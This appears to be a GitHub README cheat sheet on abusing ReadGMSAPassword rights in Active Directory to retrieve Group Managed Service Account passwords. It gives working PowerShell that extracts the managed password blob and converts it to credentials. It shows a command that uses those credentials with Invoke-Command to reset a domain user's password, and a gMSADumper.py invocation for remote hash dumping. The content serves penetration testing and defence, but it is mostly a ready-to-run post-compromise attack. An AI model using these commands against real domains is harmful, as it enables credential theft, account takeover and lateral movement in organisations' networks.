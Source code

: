# Group Managed Service Accounts
Retrieve passwords from Group Managed Service Accounts (GMSA) that you have ReadGMSAPassword permissions over.

If the user you have owned has ReadGMSAPassword permissions over a GMSA you are able to retreive this users password.

<img src="https://raw.githubusercontent.com/glowbase/group-managed-service-accounts/main/20220809203905465.png" width="500px" />

## Local

```powershell
$gmsa = Get-ADServiceAccount -Identity 'GMSA-USER' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

ConvertFrom-ADManagedPasswordBlob $mp
```

You can either obtain and reuse the plaintext password or invoke commands as the GMSA.

```powershell
# Create credential object.
$cred = new-object system.management.automation.PSCredential "DOMAIN\GMSA-USER",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

Execute commands via `Invoke-Command` as GMSA.

```powershell
Invoke-Command -ComputerName COMPUTER_NAME -Credential $cred -ScriptBlock {net user someuser password123! /domain}
```

## Remote

You can use [gMSADumper.py](https://raw.githubusercontent.com/micahvandeusen/gMSADumper/main/gMSADumper.py) to remotely dump hashes/passwords.

```bash
python3 gMSADumper.py -u USERNAME -p PASSWORD -l DOMAIN.LOCAL -d DOMAIN.LOCAL
```

## Additional Resources
- Additional GMSA Attacks - [https://adsecurity.org/?p=4367](https://adsecurity.org/?p=4367)
- Overview of GMSA - [https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview)

